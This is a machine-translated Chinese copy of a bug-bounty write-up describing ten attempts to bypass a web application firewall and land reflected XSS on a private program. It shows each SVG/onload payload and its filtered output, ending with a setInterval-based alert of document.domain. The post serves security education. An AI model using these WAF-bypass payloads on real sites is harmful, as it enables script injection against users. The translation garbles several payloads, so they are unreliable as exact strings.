 # 尝试 10 次绕过魔鬼的 WAF，跳向地狱:

> 原文：<https://infosecwriteups.com/jumping-to-the-hell-with-10-attempts-to-bypass-devils-waf-4275bfe679dd?source=collection_archive---------1----------------------->

这是一篇关于私有 bbp 上 waf 旁路的快速文章，所以我将隐藏这个程序的名字。

环顾应用程序，我发现了一个吸引我注意的入口标签功能点:

这个应用程序基本上加载了一个标签项，我从这个开始:

###第一次尝试:

> `***injection: “=””’>****<details open=“”>*`
> 
> **输出为**:
> 
> **<span>" = " " '&gt；&lt；详情公开= " "&gt；(0)</span>/**

没什么…

###第二次尝试

> `***injection:*** *“=””’>****</>****<details open=“”>*`
> 
> **输出为**:
> 
> **<span>" = " " '&gt；&lt；/&gt；&lt；详情公开= " "&gt；(0)</span>/**

没什么…

###第三次尝试:

> `***injection:***` " = " " '></>**<脚本></脚本>** <详情打开="" >
> 
> **输出为:**
> 
> **<span>" = " " '&gt；<details open = "……"(0)<= " " span = " "><a href = " " class = " " rel = " 1 "></a></details></span>**

![](img/aa6e9c21d0572edb344733fe20f8e9b3.png)

**砰！我们得到了 HTML 注入！**

![](img/bd259baa6baef8ab1c9958b233954621.png)

**现在…去寻找珍贵的 XSS…**

![](img/2a6d731dd83787ae148062671ce4f7c8.png)

####第四次尝试:

我更改了 **svg、**的细节标签

> `***injection:***`" = " " '></>/<脚本></脚本>**<SVG onload = alert(1)>**
> 
> **输出为:**
> 
> " = " " '>**<SVG onload = " al…(1)= " "></SVG>**</span>

**奇怪？是的..拼命地..DOM 中也有丑陋的点…(标签工作正常，就像上面显示的细节标签)**

但是没有弹出窗口:(

####第五次尝试:

> `***injection:***`" = " " '></>/<脚本></脚本><SVG onload**" = "**alert(1)>
> 
> **输出为:**
> 
> **<SVG onload " = "……(1)>**</span><a href = " " = " " class = " " rel = " 1 "></SVG>

WTF？你在开玩笑吗？

![](img/f3d6414bd7696aad5e247c002d031fc0.png)

瓦特？

好吧，丑陋的混蛋…现在这是私人恩怨..

![](img/b434d9367146022a154d148724d9a5a7.png)

####第六次尝试:

> `***injection:***`" = " " '></>/<脚本></脚本><SVG onload**" = " " alert onload = alert(1)" ">**
> 
> **输出为:**
> 
> **<跨度>" = " " '&gt；<SVG onload " = "…(1)" " = " "></SVG></span>**

好吧，我放弃..这不起作用..

![](img/a6dbca78de7ed8d50e094b76b1cc13c6.png)

###第七次尝试:

> `***injection:***` " ="" ' > < / > <脚本></脚本><SVG onload**" = " alert onload = alert(1)" " onload = prompt(1)>**
> 
> **输出为:**
> 
> **onload = " prompt</span "**><a href = " " class = " " rel = " 0 "></a></SVG></span>

哦，太好了！我更近了..我能感觉到..

![](img/1087c250aa95a4638340e949464525bd.png)

我能感受到你的能量..ak1t4..

####第八次尝试:

> `***injection:***`" = " " '></>/<脚本></脚本><SVG onload " = " alert onload = alert(1)" "**onload = prompt ` 1 `>**
> 
> **输出为:**
> 
> **<SVG onload "…= " "(1)" " = " " onload = " prompt ` 1 ` "></SVG>:)**

**嘣！我们抓到 XSS 了！**

![](img/0044983a03b721fe86d3b171d1e7ee0e.png)![](img/9a89cbd03debece27574ec7e861bd9a4.png)

好..现在试着用 **document.domain:**

####第九次尝试:

> `***injection:***`" = " " '></>/<脚本></脚本><SVG onload " = " alert onload = alert(1)" "**onload = prompt ` document . domain `>**
> 
> **输出为:<SVG onload "…= " "(1)" " = " " onload = " prompt ` document . domain ` ">/SVG>:(**

![](img/8c948490a95bb9b8b83700b25573d515.png)

**WTF？**粘性大便被当作字符串输入…

嗯，是时候召唤一个真正的绝地武士了:野蛮大师前来拯救，并为原力带来平衡..

所以我问他如何通过 sticky shits ' 1 '注入 document.domain

他的回答是:

![](img/2d9a3c47275fa4cae05783d3797f4c93.png)![](img/7ec57e1f7a86749823438245f12dbf4b.png)

####最后一次尝试大师蛮力的神奇触摸:)

> `***injection:***`" = " " '></>/<脚本></脚本><SVG onload " = " alert on load = alert(1)" " onload =**setinterval ` alert \ x28 document . domain \ x29 `**

**嘣宝宝！**

![](img/1a26b1276c2a73b0d3b1f9dfcded1329.png)

***感谢 BRUTELOGIC 大师指引我走向最后的命运:)**

XSS 不是我的领域，所以我觉得

![](img/a143576c7937d10548775607f043ecfd.png)

**愿原力与你同在——黑客快乐:)**

页（page 的缩写）d:我不是程序员，我靠常识和逻辑来入侵。欢迎所有的批评家不断改进。我希望你喜欢这个讲座，就像我喜欢写作一样。

[](https://hackerone.com/ak1t4) [## HackerOne 简介— ak1t4

### 怀特 4t Hack3r &禅宗和尚&赏金猎人——https://twitter.com/knowledge_2014

hackerone.com](https://hackerone.com/ak1t4) [](https://twitter.com/knowledge_2014) [## ak1t4 z3n (@knowledge_2014) |推特

### ak1t4 z3n 的最新推文(@knowledge_2014)。Bug 赏金猎人——HoF:谷歌——Mozilla——PayPal——微软……

twitter.com](https://twitter.com/knowledge_2014)